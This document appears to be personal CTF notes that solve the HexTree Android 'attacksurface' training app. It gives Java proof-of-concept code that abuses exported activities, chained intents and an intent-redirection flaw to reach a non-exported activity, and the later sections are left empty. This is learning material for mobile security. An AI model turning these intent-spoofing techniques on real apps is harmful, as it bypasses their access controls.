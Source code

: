 
2025-06-09 10:57

Source: #android #CTF 
# Activity  

Take the apk in jadx and check the android manifest to find activities related to flag
click on the flag activity and we see a call to success() function 
our goal is to reach the success() function in all of these challenges
#### 1 - basic exported activity

note the package name and complete class name 

write this java code in your POC app
```java
public void onClick(View view) {  
    Intent expintent = new Intent();  
    expintent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag1Activity");  
    startActivity(expintent);  
}
```
#### 2 - Intent w extras

snippet from android manifest of flag2 
```xml
<intent-filter>
    <action android:name="io.hextree.action.GIVE_FLAG"/>
</intent-filter>
```

add the code below to the code we wrote for 1 - basic exported activity 
```java
expintent.setAction("io.hextree.action.GIVE_FLAG");
```
#### 3 - Intent w data URI

snippet from android manifest of flag 3 
```xml
<intent-filter>
    <action android:name="io.hextree.action.GIVE_FLAG"/>
    <data android:scheme="https"/>
</intent-filter>
```
on clicking flag4activity, it has an if loop that check if the data parsed has a particular URI, so we use that URI while creating the POC app

add the code below to the code we wrote for 1 - basic exported activity 
```java
expintent.setAction("io.hextree.action.GIVE_FLAG");
expintent.setData(Uri.parse("https://app.hextree.io/map/android"));
```

#### 4 - State machine 

when looking at the flag4activity code in jadx we see multiple actions nested in `if` loops - like so
```java
if (ordinal != 0) {
     if (ordinal != 1) {
        if (ordinal != 2) {
            if (ordinal == 3) {
                this.f.addTag(State.GET_FLAG);
                setCurrentState(State.INIT);
                success(this);
                Log.i("Flag4StateMachine", "solved");
                return;
            }
	        ...
        } else if ("GET_FLAG_ACTION".equals(action)) { ....
            Log.i("Flag4StateMachine", "Transitioned from BUILD to GET_FLAG");
            return;
        }
    } else if ("BUILD_ACTION".equals(action)) {
        ...
		... // more else if loops 
```

This hints that we might have to make multiple intents for every action 

```java
Intent exploitIntent3 = new Intent();  
exploitIntent3.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag4Activity");  
exploitIntent3.setAction("GET_FLAG_ACTION");  
startActivity(exploitIntent3);  
  
Intent exploitIntent2 = new Intent();  
exploitIntent2.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag4Activity");  
exploitIntent2.setAction("BUILD_ACTION");  
startActivity(exploitIntent2);  
  
Intent exploitIntent = new Intent();  
exploitIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag4Activity");  
exploitIntent.setAction("PREPARE_ACTION");  
startActivity(exploitIntent);
```
#### 5 - Intent in intent

jump through multiple intent to reach `success()`, below is the code snippet from `flag5activity` from `jadx`.
```java
public void onCreate(Bundle bundle) {
	    ...
        Intent intent = getIntent();
        Intent intent2 = (Intent) intent.getParcelableExtra("android.intent.extra.INTENT");
        if (intent2 == null || intent2.getIntExtra("return", -1) != 42) {
            return;
        }
        this.f.addTag(42);
        Intent intent3 = (Intent) intent2.getParcelableExtra("nextIntent");
        this.nextIntent = intent3;
        if (intent3 == null || intent3.getStringExtra("reason") == null) {
            return;
        }
        this.f.addTag("nextIntent")
        ... // similar patterned code ahead 
```

We will use `putExtra()` here to call intent in an intent
```java
public void onClick(View view) {  
    Intent nextIntent = new Intent();  
    nextIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");  
    nextIntent.putExtra("reason", "back");  
 
    Intent middleIntent = new Intent();  
    middleIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");  
    middleIntent.putExtra("return", 42);           
    middleIntent.putExtra("nextIntent", nextIntent);  
  
    Intent outerIntent = new Intent();  
    outerIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");  
    outerIntent.putExtra("android.intent.extra.INTENT", middleIntent);  
    startActivity(outerIntent);  
}
```

#### 6 - Not exported

in the android manifest we see this activity with `android:exported="false"`
on seeing the intent redirect vulnerability in flag5activity we can exploit that to redirect the `startactivity` call to `flag6activity` .

the flag6activity looks like this - 
```java
super.onCreate(bundle);
    this.f = new LogHelper(this);
    if ((getIntent().getFlags() & 1) != 0) {
    this.f.addTag("FLAG_GRANT_READ_URI_PERMISSION");
    success(this);
}
```
we're gonna have to use `setFlags()` while writing our intent 

```java
nextIntent.putExtra("reason", "next");  
nextIntent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);  
nextIntent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag6Activity");
```
Do exactly the same as in the flag5 to get to the `startactivity()` call, then add the above code to the respective intent.

#### 7 - 

# Activity Result 
#### 8 - Do you expect a result?



## References
https://www.youtube.com/watch?v=jnBmI1eD-og
https://itsfading.github.io/posts/HexTree-Attack-Surface-App-Solutions/